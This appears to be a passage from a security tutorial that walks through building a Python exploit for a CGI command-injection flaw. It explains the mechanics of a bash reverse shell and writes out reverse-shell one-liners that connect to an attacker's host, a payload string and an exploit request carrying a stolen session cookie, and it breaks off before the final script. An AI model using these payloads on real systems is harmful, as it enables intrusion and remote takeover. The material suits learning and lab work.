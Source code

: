 There are numerous ways to execute the system shell on Linux as we have the freedom to execute any command that we want. In this scenario we will save steps and space by using `bash` to open a connection to the attacker and send the shell. [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell) lists the following examples:

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>6</p></figcaption></figure>

The first command listed `bash -i` is a popular one line command to establish an interactive reverse shell on a system. This will be the basis for our payload() function but it does require some tweaks. While it executes a reverse shell, we are missing a key point. Without specifying what to do with the bash shell that executes on boot, the system is unable to distinguish between separate processes of bash. To fix this, we can use `bash -c 'exec bash -i xyz'`

[exec](https://www.computerhope.com/unix/bash/exec.htm) completely replaces the current running process. The current shell process is destroyed and entirely replaced by the command we specify which will be the reverse shell&#x20;

`bash -i &>/dev/tcp/TARGET_IP/PORT`

I also want to discuss the meaning of "<&1", "0>&1", or "0<&1" which are interchangeable, [this article](https://unix.stackexchange.com/questions/521596/what-does-the-01-shell-redirection-mean) discusses the specific command in detail. I recommend reading [this article](https://stackoverflow.com/questions/24793069/what-does-do-in-bash) and [this article](https://unix.stackexchange.com/questions/120532/what-does-exec-31-do) if the syntax is brand new to you. The purpose of "<&1" is to redirect the output stream (1, stdout) of the TCP socket to the input stream (0, stdin) of the bash shell and create a _reverse_ shell. Bash opens a TCP socket on the target machine through the given port and makes a request to the given IP (the attacker). The output stream of the socket is then redirected to the input steam of the new bash shell, sending the shell process through the socket. The ampersand character "&" acts as a reference to the I/O socket streams.

`payload = f"bash -c 'exec bash -i &>/dev/tcp/{lhost}/{lport}<&1'"`

Lastly, all we need is the second request with the authenticated cookie. The module did not specify whether to use a POST or GET method however, in this scenario either method works.

`req = requests.post(exp, cookies={"sid":sid}, verify=False, allow_redirects=False)`

* [x] generate five random alphanumeric characters.
* [x] store the system shell with a function, encode it and send it back via socket.
* [x] send a GET or POST request with compromised cookie to show.cgi with invalid input piping it to the malicious command.

## 1st Final POC Python script

